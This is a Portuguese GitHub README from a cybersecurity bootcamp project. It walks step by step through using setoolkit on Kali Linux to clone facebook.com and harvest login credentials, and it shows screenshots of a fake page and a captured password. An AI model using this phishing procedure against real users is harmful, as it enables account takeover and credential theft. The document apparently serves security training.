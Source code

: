 # 📐 Desafio de Projeto 🚀

## Phishing para captura de senhas do Facebook

Neste desafio de projeto, iremos criar um Phishing para capturar senhas de login do Facebook.

### Ferramentas

- <img title="setoolkit" src="https://juststickers.in/wp-content/uploads/2019/11/Kali-linux.png" width="70px" height="70px" align="middle"> Kali Linux</img>
- <img title="setoolkit" src="https://gitlab.com/uploads/-/system/project/avatar/11904292/kali-set.png" width="70px" height="70px" align="middle"> setoolkit</img> 

### Configurando o Phishing no Kali Linux

- Acesso root:
 ``` shell
(lucas@kali)-[~]$ sudo su [ENTER]
[sudo] password for lucas: ***** [ENTER]
 ```
- Iniciando o setoolkit:
 ``` shell
 (root@kali)-[/home/lucas]# setoolkit [ENTER]
 ```
- Aceitando os Termos:
 ``` shell
 Do you agree to the terms of service [y/n]: y [ENTER]
 ```
- Tipo de ataque: 
``` shell
Select from the menu:

  1) Social-Engineering Attacks
  2) ...

  99) Exit ...

set> 1 [ENTER]
```
- Vetor de ataque: 
``` shell
Select from the menu:

   1) ...
   2) Web Site Attack Vectors
   3) ...

   99) Return ...

set> 2 [ENTER]
 ```
- Método de ataque: 
``` shell
  1) ...
  2) ...
  3)Credential Harvester Attack Method

  99) Return ...

set:webattack> 3 [ENTER]
```
- Método de ataque: 
```shell
  1) ...
  2) Site Cloner
  
  99) Return ...

  set:webattack> 2 [ENTER]
 ```
- Obtendo o IP da sua máquina para torná-la um servidor temporário:
```shell
set:webattack> IP address for the POST back in Harvester/Tabnabbing [SEU IP VAI APARECER AQUI]: [ENTER PARA USAR O SEU IP]
```
- URL para clone:
```shell
set:webattack> Enter the url to clone: http://www.facebook.com
 ```

### Resutados

#### Facebook Fake

![Página Fake](./facebook_fake.png "Página Fake do Facebook")

#### Usuário e Senha Capturados

![Senha Capturada](./passwd.png "E-mail e Senha Capturadas")

---

🚧 Projeto da [Dio.me](https://web.dio.me) do curso:

<p>
<img title="Santander Bootcamp Cibersegurança" src="https://hermes.dio.me/tracks/b092559f-ec20-4401-83e5-d98b6278b7b1.png" width="70pix" height="70pix" align="middle">Santander Bootcamp Cibersegurança</img> 
</p>
